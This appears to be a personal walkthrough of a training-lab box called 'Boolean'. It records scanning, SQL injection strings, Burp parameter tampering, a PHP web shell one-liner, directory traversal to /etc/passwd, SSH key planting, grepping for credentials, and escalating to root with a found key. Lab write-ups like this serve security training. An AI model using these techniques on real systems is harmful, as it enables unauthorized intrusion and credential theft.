 Gonna take a while guess that this is Boolean SQLi box

```
sudo nmap -sC -sV -vv 192.168.247.42  -oN nmap-boolean
```


![[PG/Linux/attachments/Pasted image 20250709162701.png]]

All ports 

```
sudo nmap -sC -sV -vv -p- 192.168.247.42  -oN nmap-boolean-all-ports
```

# Web (80)

![[PG/Linux/attachments/Pasted image 20250709164644.png]]

Payload 1
```
admin' OR 1=1 -- -
```

```
admin' AND 1=1 -- -
```

```
admin' OR '1'='1
```

```
admin' OR '1'='0
```

I created an account 

![[PG/Linux/attachments/Pasted image 20250709164850.png]]


## Ferox 

```
feroxbuster -u http://192.168.194.231/login -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o ferox.out
```

This is interesting 

![[PG/Linux/attachments/Pasted image 20250709165128.png]]
- no it isn't

# Manipulating Burp Parameters 

The /settings/email page needed the email confirmation..

Manipulating the confirmed parameter to be true.

Before manipulation - Request
![[PEN-200/10. SQL Injection Attacks/attachments/Pasted image 20250709211040.png]]

Before manipulation - Response 
![[PEN-200/10. SQL Injection Attacks/attachments/Pasted image 20250709211107.png]]

Payload - removed the email parameter and replaced with confirmed=true

```
_method=patch&authenticity_token=NRHHffkZqr8iuk3qaKOX6_P4IMBTbvEPFtvulhfO363lripmFgYqIPXo4YsbBMEjFSrMOmEwQ0FWigRU_KWpNw'AND+1%3d1&user%5Bconfirmed=true&commit=Change%20email
```
![[PEN-200/10. SQL Injection Attacks/attachments/Pasted image 20250709210846.png]]


Response 
![[PEN-200/10. SQL Injection Attacks/attachments/Pasted image 20250709210947.png]]

![[PEN-200/10. SQL Injection Attacks/attachments/Pasted image 20250709211135.png]]

Can we see anything in the browser?

Yeah - just log back in on website and we're good.

![[PEN-200/10. SQL Injection Attacks/attachments/Pasted image 20250709211403.png]]
- Oh boyyyyy.. a file upload 

Let's give a web shell

[Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)

```
<?php system($_GET['cmd']); ?>
```

Easy 

![[PG/Linux/attachments/Pasted image 20250709211844.png]]

It's not being executed though 

![[PG/Linux/attachments/Pasted image 20250709212050.png]]

It just downloaded to my box lol

Here's the request in Burp 

![[PG/Linux/attachments/Pasted image 20250709212203.png]]

Trying this to read /etc/passwd - directory traversal 

![[PG/Linux/attachments/Pasted image 20250709213304.png]]

We see a couple of legit users here 

![[PG/Linux/attachments/Pasted image 20250709213431.png]]

Try to read remi's .ssh directory

Create an ssh key to upload 

[Quick guide ](https://mqt.gitbook.io/oscp-notes/ssh-keys?source=post_page-----9c7f5b963559---------------------------------------)

```
ssh-keygen
```

![[PG/Linux/attachments/Pasted image 20250709214022.png]]

![[PG/Linux/attachments/Pasted image 20250709214046.png]]
Uploaded public key
![[PG/Linux/attachments/Pasted image 20250709214406.png]]

```
chmod 600 id_ed25519
```


![[PG/Linux/attachments/Pasted image 20250709215921.png]]

Upload the authorized_keys in home/remi/.ssh folder

![[PG/Linux/attachments/Pasted image 20250709220057.png]]

Well I'll be damned 

```
ssh remi@192.168.194.231 -i id_ed25519
```
![[PG/Linux/attachments/Pasted image 20250709220213.png]]

We're in

![[PG/Linux/attachments/Pasted image 20250709220330.png]]

Ugh

![[PG/Linux/attachments/Pasted image 20250709220453.png]]

Lots of files here 

![[PG/Linux/attachments/Pasted image 20250709220557.png]]

```
grep -rinE '(password|username|user|pass|key|token|secret|admin|login|credentials)'
```

This has a TON of output but we see some db creds 

![[PG/Linux/attachments/Pasted image 20250709220820.png]]

```
boolean:superdupersekiyurpass
```

Login to database 

```
mysql -u boolean -psuperdupersekiyurpass
```

![[PG/Linux/attachments/Pasted image 20250709221348.png]]

```
show databases;
```

![[PG/Linux/attachments/Pasted image 20250709221325.png]]

```
use boolean_development;
```

```
show tables;
```

![[PG/Linux/attachments/Pasted image 20250709221448.png]]

```
select * from users;
```

It's me!!
![[PG/Linux/attachments/Pasted image 20250709221532.png]]

```
select * from ar_internal_metadata;
```

![[PG/Linux/attachments/Pasted image 20250709221629.png]]

```
select * from schema_migrations;
```

![[PG/Linux/attachments/Pasted image 20250709221721.png]]

Waste of time. 

The dang root key is right here.

![[PG/Linux/attachments/Pasted image 20250709221850.png]]

```
ssh -i root root@127.0.0.1
```

![[PG/Linux/attachments/Pasted image 20250709222031.png]]
